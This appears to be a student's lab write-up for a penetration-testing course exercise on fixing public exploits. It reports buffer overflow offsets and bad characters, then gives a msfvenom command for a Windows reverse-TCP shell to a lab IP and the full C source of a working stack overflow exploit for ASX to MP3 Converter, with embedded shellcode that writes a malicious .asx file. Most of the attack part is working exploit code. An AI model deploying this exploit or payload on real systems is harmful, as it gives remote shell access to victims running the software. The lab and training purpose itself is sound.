



### 15.1.7.1 Exercises
#### 1. Fix the overflow buffer such that the EIP register will be overwritten by your chosen return address instruction.

- Fixed the initial buffer size by adding 1 byte to account for the null pointer on the end:

  

- Set breakpoint in Immunity & ran exploit.  EIP was successfully overwritten with the return address:

  

- Successful netcat shell
  

#### 2. Install the ASX to MP3 Converter application located under the C:\Tools\fixing_exploits directory; download the exploit for ASX to MP3 Converter from EDB and edit it in order to get a shell on your dedicated Windows machine.

This code was absolutely broken.  Almost nothing seemed to be correct about it, so I basically just started over from scratch with this exploit and just used the code as a framework for C, trusting basically nothing else about it.

- The C code didn't account for the null character in the overwrite_offset when concatenating the strings at the end, which caused the output file to stop at the overwrite_offset end and only contain the 'A' characters.  I subtracted one from the overwrite_offset string's length to keep the null character from being included in the concatenated string.

- Using the regular Buffer Overflow methods, I determined the following:

  - The buffer offset for EIP is 247 bytes (I used 248 length to allow space for the null character terminator)
  - The offset for ESP is 4 bytes
  - Badchars are  \x00\x09\x0a\x1a\x25\xff

- I generated a payload & inserted it into the C code:

  ```bash
  msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x09\x0a\x1a\x25\xff"
  ```

- I loaded asx2mp3converter.exe into Immunity and searched for the return address specified in the exploit code but it didn't exist.  I searched for a JMP ESP statement and found one at 0x1003789D in a loaded DLL.  I updated the exploit code return address to this.  

- I compiled and ran the code, but I kept getting access violations.  Adding 3 lines of NOP's fixed this issue and, with all of the above changes to this ~~trash~~ code, I was finally able to get a shell:

  
- Final C code

  ```c
  /*                                                                                                                
  ASX to MP3 Converter SOF - Ivan Ivanovic Ivanov Иван-дурак        
  недействительный 31337 Team                                                                                       
  holahola ~ https://www.exploit-db.com/exploits/38382/
  Winblows 2k3
  Badchars are  \x00\x09\x0a\x1a\x25\xff
  */                                                                                                                
                                                           
  #include <stdio.h>
  #include <windows.h>                                                                                              
  #include <malloc.h>                                                                                               
                                                                                                                    
  int main() {                                             
  
      int i;    
      char *overwrite_offset = malloc(248);
      for(i = 0; i < 248; i += 1) {
          char padding[] = "\x41"; 
          memcpy(overwrite_offset + i, padding, strlen(padding));
      }        
      memset(overwrite_offset + _msize(overwrite_offset) - 1, 0x00, 1);
                              
      char retn[] = "\x9d\x78\x03\x10"; // 1003789d
      char shellcode[] = 
      "\x42\x42\x42\x42" //ESP Offset
      "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" // NOP sled
      "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" // NOP sled
      "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" // NOP sled
      "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" // NOP sled
      "\xb8\x32\xd2\x5a\x91\xd9\xcf\xd9\x74\x24\xf4\x5d\x29\xc9\xb1"                                                
      "\x52\x31\x45\x12\x83\xc5\x04\x03\x77\xdc\xb8\x64\x8b\x08\xbe"                                                
      "\x87\x73\xc9\xdf\x0e\x96\xf8\xdf\x75\xd3\xab\xef\xfe\xb1\x47"
      "\x9b\x53\x21\xd3\xe9\x7b\x46\x54\x47\x5a\x69\x65\xf4\x9e\xe8"                                                
      "\xe5\x07\xf3\xca\xd4\xc7\x06\x0b\x10\x35\xea\x59\xc9\x31\x59"                                                
      "\x4d\x7e\x0f\x62\xe6\xcc\x81\xe2\x1b\x84\xa0\xc3\x8a\x9e\xfa"
      "\xc3\x2d\x72\x77\x4a\x35\x97\xb2\x04\xce\x63\x48\x97\x06\xba"
      "\xb1\x34\x67\x72\x40\x44\xa0\xb5\xbb\x33\xd8\xc5\x46\x44\x1f"
      "\xb7\x9c\xc1\xbb\x1f\x56\x71\x67\xa1\xbb\xe4\xec\xad\x70\x62"
      "\xaa\xb1\x87\xa7\xc1\xce\x0c\x46\x05\x47\x56\x6d\x81\x03\x0c"                                                
      "\x0c\x90\xe9\xe3\x31\xc2\x51\x5b\x94\x89\x7c\x88\xa5\xd0\xe8"                                                
      "\x7d\x84\xea\xe8\xe9\x9f\x99\xda\xb6\x0b\x35\x57\x3e\x92\xc2"
      "\x98\x15\x62\x5c\x67\x96\x93\x75\xac\xc2\xc3\xed\x05\x6b\x88"                                                
      "\xed\xaa\xbe\x1f\xbd\x04\x11\xe0\x6d\xe5\xc1\x88\x67\xea\x3e"
      "\xa8\x88\x20\x57\x43\x73\xa3\x98\x3c\x0c\xeb\x71\x3f\xf2\x14"
      "\xc2\xb6\x14\x40\xd2\x9e\x8f\xfd\x4b\xbb\x5b\x9f\x94\x11\x26"                                                
      "\x9f\x1f\x96\xd7\x6e\xe8\xd3\xcb\x07\x18\xae\xb1\x8e\x27\x04"
      "\xdd\x4d\xb5\xc3\x1d\x1b\xa6\x5b\x4a\x4c\x18\x92\x1e\x60\x03"
      "\x0c\x3c\x79\xd5\x77\x84\xa6\x26\x79\x05\x2a\x12\x5d\x15\xf2"                                                
      "\x9b\xd9\x41\xaa\xcd\xb7\x3f\x0c\xa4\x79\xe9\xc6\x1b\xd0\x7d"                                                
      "\x9e\x57\xe3\xfb\x9f\xbd\x95\xe3\x2e\x68\xe0\x1c\x9e\xfc\xe4"                                                
      "\x65\xc2\x9c\x0b\xbc\x46\xbc\xe9\x14\xb3\x55\xb4\xfd\x7e\x38"
      "\x47\x28\xbc\x45\xc4\xd8\x3d\xb2\xd4\xa9\x38\xfe\x52\x42\x31"
      "\x6f\x37\x64\xe6\x90\x12";
                                                           
      int buffer_size = _msize(overwrite_offset) + strlen(retn) + strlen(shellcode);
      char *buffer = malloc(buffer_size);
                                                                                                                    
      memcpy(buffer, overwrite_offset, (_msize(overwrite_offset) - 1));
      memcpy(buffer + (_msize(overwrite_offset) - 1), retn, strlen(retn));
      memcpy(buffer + (_msize(overwrite_offset) - 1) + strlen(retn), shellcode, strlen(shellcode));
      memset(buffer + buffer_size - 1, 0x00, 1);   
                              
      FILE * fp;                                           
      fp = fopen("exploit.asx","w");                                                                                
      fprintf(fp, buffer);                                                                                          
      fclose(fp);                                                                                                   
                                                                                                                    
      return 0;                                                                                                     
                                                                                                                    
  }                                                        
  ```
  
  